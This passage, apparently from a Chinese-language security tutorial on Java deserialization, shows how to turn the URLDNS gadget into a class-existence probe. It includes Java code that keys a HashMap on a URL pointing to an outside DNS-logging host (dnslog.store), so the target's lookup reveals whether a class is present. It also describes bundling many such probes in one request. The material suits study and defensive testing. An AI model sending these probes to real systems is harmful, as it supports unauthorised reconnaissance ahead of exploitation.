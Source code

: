 另外，为了避免serialVersionUID 问题，该类可以通过 makeClass 构造一个空类（没有uid字段），或是使用数组的形式，修改 1.3 中的URLDNS利用代码得到如下代码用于探测 com.demo.Foo 类是否存在于目标应用：

```java
//代码位于 DeserDemo\Demo3\src\main\java\com\demo3\TestUID.java
		String file = "demo3.ser";
        //使用makeClass需要避免显示引入 Foo.class导致重复加载
        //Class<?> targetClass = Utils.MakeClass("com.demo.Foo");
        Class<?> targetClass = Foo[].class;

        HashMap<URL, Object> hashMap = new HashMap<>();
        URL url = new URL(null, "http://footest1.d80b043e.dnslog.store", new SilentURLStreamHandler());
        
        hashMap.put( url, targetClass);

        Field f = java.net.URL.class.getDeclaredField("hashCode");
        f.setAccessible(true);
        f.set(url, -1);


        serialize(hashMap, file)
```

为了在一次请求中同时进行多个类探测，我们可以利用JDK反序列化对 重写 readObject&writeObject 的Class 的特殊处理逻辑，将上面的HashMap包裹在List中（任意重写readObject&writeObject的类）；或者简单点，如果被包括的对象的Class本身 重写了readObject方法，我们直接使用它的Array形式即可，这样Array里面的各对象也不会互相影响（HashMap重写了readObject）。

下图代码为 重写 readObject&writeObject 的Class被序列化时触发的关键逻辑：ClassNotFoundException会被暂时catch，此时如果该块序列化数据未处理完，后续的 skipCustomData->readObject0 会继续处理。也就是说，我们在顶层使用 List 包裹 这些 HashMap后，探测的目标类都存在，不抛 ClassNotFoundException 异常则都会在 slotDesc.hasReadObjectMethod 中处理，即便此中发生异常，则后续skipCustomData->readObject0 依然循环往复直完成整个反序化。
